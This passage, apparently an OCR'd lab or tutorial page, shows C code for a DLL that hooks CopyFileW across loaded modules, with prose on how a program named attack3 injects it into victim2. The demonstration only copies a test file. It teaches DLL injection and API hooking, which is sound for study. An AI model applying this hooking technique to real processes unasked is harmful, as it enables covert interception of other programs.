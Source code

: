 ```c

	HMODULE hBaseLib = LoadLibrary(BaseLibraryName);

	PROC hBaseProc;

	if(UnHook)
		hBaseProc = (PROC) Custom;
	else
		hBaseProc = GetProcAddress(hBaseLib, BaseFunctionName);

	PFNENUMPROCESSMODULES m_pfnEnumProcessModules;
	HMODULE m_hModPSAPI = ::LoadLibraryA("PSAPI.DLL");

	m_pfnEnumProcessModules = (PFNENUMPROCESSMODULES)::GetProcAddress(m_hModPSAPI, "EnumProcessModules");

	HANDLE hProcess = ::GetCurrentProcess();

	if( m_pfnEnumProcessModules(hProcess, hMods, sizeof(hMods), &cbNeeded))
	{
		for ( i = 0; i < (cbNeeded / sizeof(HMODULE)); i++ )
		{
			SetHook(hMods[i], BaseLibraryName, hBaseProc, NewFunctionPointer);
		}
	}

	return hBaseProc;
}

BOOL APIENTRY DllMain( HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
	switch (ul_reason_for_call)
	{
		case DLL_PROCESS_ATTACH:
			g_hModule = hModule;

			g_OriginalCopyFileW = EnumAndSetHooks("KERNEL32.DLL", "CopyFileW", (PROC) MyCopyFileW, false, 0);

			break;
		case DLL_PROCESS_DETACH:
			EnumAndSetHooks("KERNEL32.DLL", "CopyFileW", (PROC) GetProcAddress(LoadLibrary("KERNEL32"),"CopyFileW"), true, (PROC) MyCopyFileW);
			break;
	}

	return TRUE;
}
```

In the above code, attack3 injects sharedModule.dll into victim2. At this point we have three threads: attack3, victim2, and sharaedModule.dll. attack3 is waiting on "WaitForSingleObject", victim2 runs first, display, "hello from victim2" and is waiting on user clicking on "Confirm" button. sharedModule.dll runs next and changes CopyFileW to MyCopyFileW. When the user clicks on "Confirm" button, victim2 runs "CopyFileW" which is changed to "MyCopyFileW" which will copy f1.txt to f2.txt (you should see f2.txt created in victim2/Debug).
